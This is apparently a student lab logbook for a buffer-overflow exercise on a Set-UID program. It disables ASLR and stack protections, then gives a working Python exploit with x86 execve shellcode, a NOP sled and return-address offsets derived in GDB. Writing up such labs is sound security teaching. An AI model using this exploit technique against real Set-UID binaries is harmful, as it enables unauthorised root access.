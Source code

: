## Buffer-Overflow Attack Lab - Set-UID Version



Setup of the system:

Disabling the address randomization:

> $ sudo sysctl -w kernel.randomize_va_space=0

Changing shell create a symbolic link from /bin/sh to /bin/zsh, making our future attack easier:

> $ sudo ln -sf /bin/zsh /bin/sh


### Task 1

We compiled the ```call_shellcode.c```file and ran the -m32 and 64 versions:

![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1LOGBOOK5_32.png)

*Image 1 - m32 shell.*


![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1LOGBOOK5_64.png)
-
*Image 2 - 64 shell.*

The shell opened successfully in both.

### Task 2

Before compiling the vulnerable program, we disabled the StackGuard and the
non-executable stack protections and made it a root-owned Set-UID program.

> $ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c

> $ sudo chown root stack 

> $ sudo chmod 4755 stack 



Next, we changed the value of the L1 variable acoording to our group number:

![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task2LOGBOOK5.png)

*Image 3 - L1 variable.*

And ran ```make stack-L1``` successfully.


### Task 3

To exploit the buffer-overflow vulnerability, we needed to know the distance between the buffer's start and the return address. Using GDB, we set a breakpoint in the vulnerable function and checked the base pointer (EBP) and buffer address. This allowed us to calculate the offsets needed to create a payload that overwrites the return address, letting our shellcode execute.

After executing the commands provided in the guide, we obtained the following output:

![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task3_LOGBOOK5_1.png)



Next, we modified the file ```exploit.py``` as follows:

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) - 1                # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca0c + start           # Change this number 
offset = 0xffffcaa8 + 4 - 0xffffca0c   # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```



Explanation of the modifications: 

Here, we placed the shellcode at the end of the buffer, to ensure there is enough space for the entire payload:

> start = (517 - len(shellcode) - 1)

By adding ```start``` to the buffer's base address, ```ret``` points to where the shellcode starts. This address will replace the return pointer so that when the function "returns" it jumps to our shellcode and runs it.

> ret = 0xffffca0c + start 

This calculates the distance from the buffer’s start to the return address by moving 4 bytes from the saved base pointer (0xffffcaa8) to reach the return address, then subtracting the buffer start address (0xffffca0c).This offset lets us place our ```ret``` address at the right point in the payload to redirect execution to our shellcode.

> offset = 0xffffcaa8 + 4 - 0xffffca0c 

Finally we obtained the expected result and the attack was successfully done:
![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task3_LOGBOOK5_2.png)



